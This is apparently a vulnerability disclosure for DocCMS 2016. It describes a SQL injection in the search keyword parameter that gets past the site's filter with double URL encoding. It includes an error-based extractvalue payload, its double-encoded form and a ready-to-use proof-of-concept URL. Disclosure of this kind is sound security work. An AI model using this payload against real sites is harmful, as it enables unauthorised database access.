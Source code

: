 # Summary
DocCMS2016(http://doccms.com/?p=40) has a SQL injection vulnerability at `/search/index.php?keyword`.

# Analyze
You can get the source code of the website here: https://gitee.com/husky/DocCMS/releases/download/2016/DocCms-20160517.rar

In `content\search\index.php`:
![image](https://github.com/user-attachments/assets/8d470560-22d2-4d7c-8198-b640d625254e)


There is a `checkSqlStr` filter for sql query statements:
![image](https://github.com/user-attachments/assets/b68311a2-2678-4272-81b2-74fe90f21a7f)

However, just below the check, a urldecode is done, we can double url encode the payload to bypass the waf:
![image](https://github.com/user-attachments/assets/36d41b31-f4a9-4fa5-8725-a31fa4f3382a)

# Details
Normal keyword search:
![image](https://github.com/user-attachments/assets/fec26571-6b36-4390-a9fd-c0fa520d7ba2)

We use this sql injection payload: 
```
1' and extractvalue(1,concat(0x7e,(select database()),0x7e)) -- -
```
Then double url encode:
![image](https://github.com/user-attachments/assets/9e4dffa1-7f4f-4849-9564-2758477d9256)
```
1%25%32%37%25%32%30%25%36%31%25%36%65%25%36%34%25%32%30%25%36%35%25%37%38%25%37%34%25%37%32%25%36%31%25%36%33%25%37%34%25%37%36%25%36%31%25%36%63%25%37%35%25%36%35%25%32%38%25%33%31%25%32%63%25%36%33%25%36%66%25%36%65%25%36%33%25%36%31%25%37%34%25%32%38%25%33%30%25%37%38%25%33%37%25%36%35%25%32%63%25%32%38%25%37%33%25%36%35%25%36%63%25%36%35%25%36%33%25%37%34%25%32%30%25%36%34%25%36%31%25%37%34%25%36%31%25%36%32%25%36%31%25%37%33%25%36%35%25%32%38%25%32%39%25%32%39%25%32%63%25%33%30%25%37%38%25%33%37%25%36%35%25%32%39%25%32%39%25%32%30%25%32%64%25%32%64%25%32%30%25%32%64
```


![image](https://github.com/user-attachments/assets/3742ed60-443a-4b8d-9609-a92337ccf770)


# PoC
```
/search/index.php?keyword=1%25%32%37%25%32%30%25%36%31%25%36%65%25%36%34%25%32%30%25%36%35%25%37%38%25%37%34%25%37%32%25%36%31%25%36%33%25%37%34%25%37%36%25%36%31%25%36%63%25%37%35%25%36%35%25%32%38%25%33%31%25%32%63%25%36%33%25%36%66%25%36%65%25%36%33%25%36%31%25%37%34%25%32%38%25%33%30%25%37%38%25%33%37%25%36%35%25%32%63%25%32%38%25%37%33%25%36%35%25%36%63%25%36%35%25%36%33%25%37%34%25%32%30%25%36%34%25%36%31%25%37%34%25%36%31%25%36%32%25%36%31%25%37%33%25%36%35%25%32%38%25%32%39%25%32%39%25%32%63%25%33%30%25%37%38%25%33%37%25%36%35%25%32%39%25%32%39%25%32%30%25%32%64%25%32%64%25%32%30%25%32%64
```
![image](https://github.com/user-attachments/assets/3742ed60-443a-4b8d-9609-a92337ccf770)
